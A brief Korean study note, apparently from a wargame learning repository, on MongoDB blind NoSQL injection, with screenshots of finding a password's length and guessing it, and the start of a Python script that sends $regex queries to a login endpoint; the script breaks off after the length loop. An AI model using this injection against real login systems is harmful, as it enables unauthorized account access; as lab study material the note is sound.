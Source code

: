 ![nosql-injection](images/Pasted%20image%2020230827213833.png)

ex) MongoDB Blind NoSQL injection
1) 비밀번호 길이 찾기
![find-length](images/Pasted%20image%2020230827214835.png)
2) 비밀번호 대입
![](images/Pasted%20image%2020230827214925.png)


NoSQL Injection 워게임은 SQL injection과 방식은 같음
- 각 데이터베이스의 구조와 사용 문법을 익히거나 매뉴얼을 잘 검색해야할 듯

```python
import requests

def main():
	base_url = ''
	url = f'{base_url}/login?'
	length = 0
	uid = 'ad.in'

	# find length
	for i in range(1000):
		upw = f"D.{{{i}}}"
		q = f'uid[$regex]={uid}&upw[$regex]={upw}'
		res = requests.get(url+q).text
```